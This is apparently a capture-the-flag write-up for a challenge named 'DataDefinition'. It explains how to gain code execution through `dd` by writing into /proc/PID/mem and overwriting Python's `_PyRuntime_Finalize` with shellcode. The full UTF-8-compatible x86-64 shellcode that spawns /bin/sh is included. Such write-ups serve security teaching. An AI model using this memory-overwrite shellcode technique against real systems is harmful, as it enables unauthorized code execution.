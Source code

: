 ### DataDefinition

This is a challenge that allows users to run `dd`.
The goal is to get RCE via `dd` by overwriting memory.

### Exploit

The Python interpreter on Ubuntu is not PIE, therefore we can overwrite
symbols. Additionally, writing to /proc/$PID/mem allows us to write to
non-writable pages, so we can manipulate arbitrary sections of the binary.
We decided to overwrite `_PyRuntime_Finalize` which is a function that is
called at the end of the execution of a script with shellcode.
The challenge requires to provide a utf-8 compatible shellcode.

Example:

```
[bits 64]

add al, 0

xlatb ; utf8
mov rdx, 0
xlatb ; utf8
mov eax, 0x3b

push strict word 0x0068
push strict word 0x732f
push strict word 0x6e69
push strict word 0x622f

push rsp
pop rdi
push rdx
push rdi
push rsp
pop rsi

syscall
```

We used the xlatb instruction to be able to use utf-8 continuation bytes for
`mov` instructions.
